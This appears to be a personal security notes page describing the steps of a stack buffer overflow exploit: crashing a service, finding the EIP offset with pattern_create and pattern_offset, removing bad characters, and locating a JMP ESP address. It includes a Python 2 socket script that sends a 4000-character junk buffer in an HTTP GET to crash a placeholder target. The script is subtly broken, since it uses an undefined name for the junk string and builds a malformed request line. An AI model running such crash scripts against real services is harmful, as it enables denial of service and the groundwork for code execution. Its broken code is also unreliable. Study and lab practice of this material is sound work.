 ```yaml
---
layout: page
title: Steps to Reproduce
permalink: /notes/security/BufferOverflow/steps-to-reproduce
notes_section: Security
notes_category: Buffer Overflow
notes_label: Steps to Reproduce
notes_order: 2
---
```


1. Crash the application
2. Find EIP location
3. Confirm EIP location
4. Find bad chars
5. Remove bad chars from shellcode
6. Find jmpesp value

```
#!/bin/python

import socket

s=socket.socket()
s.connect(("<target ip>", <target port>))
junk=A*4000

m1="GET"
m2="HTTP/1.1\r\n\r\n"
m=m1+junk+m2

s.send(m)

print s.recv(100)

s.close()
```

1. Crash the application by sending large number of random characters
2. Use pattern_create.rb -l <no. at which the application crashed>
3. Note the EIP value
4. Use the EIP value in pattern_offset.rb -q
5. You will get the exact offset value.
6. Add extra characters to overflow EIP
7. Check whether the EIP value changes or not
8. The EIP value must change and remain.
9. Send badchars to the target and identify the bad chars.
10. Identify and note the "jmpesp value"
